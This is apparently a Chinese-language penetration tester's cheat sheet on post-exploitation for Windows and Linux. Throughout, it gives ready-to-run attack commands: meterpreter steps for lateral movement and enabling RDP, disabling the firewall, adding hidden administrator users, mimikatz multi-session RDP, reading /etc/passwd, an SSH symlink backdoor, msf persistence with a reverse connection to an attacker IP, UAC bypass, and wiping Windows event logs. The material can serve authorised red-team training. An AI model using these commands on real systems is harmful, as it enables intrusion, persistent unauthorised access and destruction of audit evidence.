 # 信息收集
[后渗透之windows中无文件落地执行方法](https://mp.weixin.qq.com/s/-rN-rsnYRSKuJr5BkaRnBg)

## web 路径

```
C:\tomcat\webapps\xxxx\WEB-INF\web.xml
```

## windows

```shell
## 提权
JuicyPotato
SweetPotato
echo 其他漏洞见 z02
## 横向
meter> upload /root/fscan64.exe # 1.ipconfig 查看网段, # 2.arp -a # 2.1 route print # 3. fscan扫描 横向移动
meterpreter > run post/windows/manage/enable_rdp # 开 rdp
meterpreter > run getgui -e                      # 开启远程桌面
meterpreter > run getgui -u xiaowei -p 123456    # 创建用户
### [『红蓝对抗』RDP 多开小技巧 | 远程桌面](https://mp.weixin.qq.com/s/ji7YpWe1OyyhSlDOYydzWw)
# 远程桌面 要求的函数不受支持
# reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /t reg_dword /v AllowEncryptionOracle /d 2
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1                              # 开启3389远程桌面
netsh advfirewall set allprofiles state off
netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes                                 # M2: 放行3389
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow # M1: 放行3389

# 远程桌面 rdp
proxychains rdesktop 192.168.52.141  # 可以改过期密码
proxychains rdesktop 172.22.4.45 -u 'WIN19\Adrian' -p babygirl2 -r disk:home=/home/kali/vmware/test/rw
rdesktop -u yourname -p password -g 1024x720 192.168.0.2
rdesktop -r disk:tmp=/home/user/Desktop <remote ip address> # 映射文件夹
remmina # 可配代理 见 90_tools.md
freerdp
xfreerdp


net config Workstation # (当前计算机名，全名，用户名，系统版本，工作站域，登陆域)
net localgroup administrators
net view # 查看局域网内所有计算机
使用CS扩展的Ladon插件探测内网存活主机情况
Ladon 192.168.52.0/24 OnlinePC
net view /domain 查看域情况
CS和msf联动

# 内网主机信息收集
## * everything文件搜索（正则表达式提高效率）
## * 浏览器保存的密码/微信/QQ文件夹/回收站/共享盘/邮件软件/协同软件
## * 远程软件保存的远程连接 mstsc/内网通/向日葵/todesk等

```

### 多用户登录远程桌面

[RDP 连接多开方法与利用思路](https://mp.weixin.qq.com/s/GCFCIwqnQUAFNED0dTVDoA)

```bash
net user admin 123456 /add
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add 2>nul

# 1. 不同用户同时登录
mimikatz.exe privilege::Debug ts::multirdp exit
# 2. 同用户同时登录 RDPWrap, 好像不好使
install.bat
rdpconf.exe  # 取消 Single Session
## 2.1 win10+win11 http://github.com/anhkgg/SuperRDP
```

## linux

[Linux 内网渗透基础篇](https://mp.weixin.qq.com/s/MV4bTIW7YKiBgS6r03_FFw)

```shell
get_info_01_linux.sh
meterpreter > getSystem "whoami"

uname -a    # 获取所有版本信息
uname -m    # 获取Linux内核架构
cat /proc/version    # 获取内核信息
cat /etc/*-release   # 发布信息
cat /etc/issue    # 发布信息
hostname    # 获取主机名
cat /etc/passwd    # 列出系统所有用户
cat /etc/group    # 列出系统所有组
w    # 查看目前登录的用户
whoami    # 查看当前用户
id    # 查看当前用户信息
sudo -l    # 列出目前用户可执行与无法执行的指令
ps aux    # 查看进程信息
ls -la /etc/cron*    # 查看计划任务
ls -la /tmp
ifconfig -a    # 列出网络接口信息
cat /etc/network/interfaces    # 列出网络接口信息
arp -a    # 查看系统arp表
route    # 打印路由信息
netstat -anplt    # 打印本地端口开放信息
iptables -L    # 列出iptable的配置规则
```

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”

## 权限维持

ssh 软连接后门 需 root 执行后门命令，任意密码登录

```shell
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oport=12345
```

- [msf](https://mp.weixin.qq.com/s/Ch73sZqK54HVlJQEhbBb6g)

msf 维持 1 run persistence

```bash
run persistence –h #查看帮助
run persistence -U -i 5 -p 1234 -r 192.168.47.128
#-U指定启动的方式为用户登录时，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
```

msf 维持 2 metsvc

```bash
run metsvc –h # 查看帮助
run metsvc –A #自动安装后门
```

## 日志清除

```ps1
$a=Get-WmiObject -Class win32_service -Filter "name = 'eventlog'"
taskkill /F /PID $a.ProcessId
del %SystemRoot%\System32\winevt\Logs\*
net start EventLog
```

# 04 自动信息收集

Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973

快速查找 exp

systeminfo>micropoor.txt&(for %i in ( KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits

## ssh 相关

1.密钥篡改 authorized_keys 2.重装覆盖 openssh-backdoor https://github.com/Psmths/openssh-backdoor

### bypassuac

1. msf

```bash
search bypassuac
use exploit/windows/local/bypassuac
options
set session 1
run -j
getuid
getsystem
```

2. CVE 编号:CVE-2019-1388,windwos 证书对话框特权提升漏洞。补丁号 KB4524235 KB4525233

# Article

[后渗透之 windows 中无文件落地执行方法](https://mp.weixin.qq.com/s/GqgFDi8hJ3NcN8c98yIXuw)
[后渗透之 windows 中远程下载文件 tips](https://mp.weixin.qq.com/s/Ax0CaErM3F6VCctTB2KaHA)
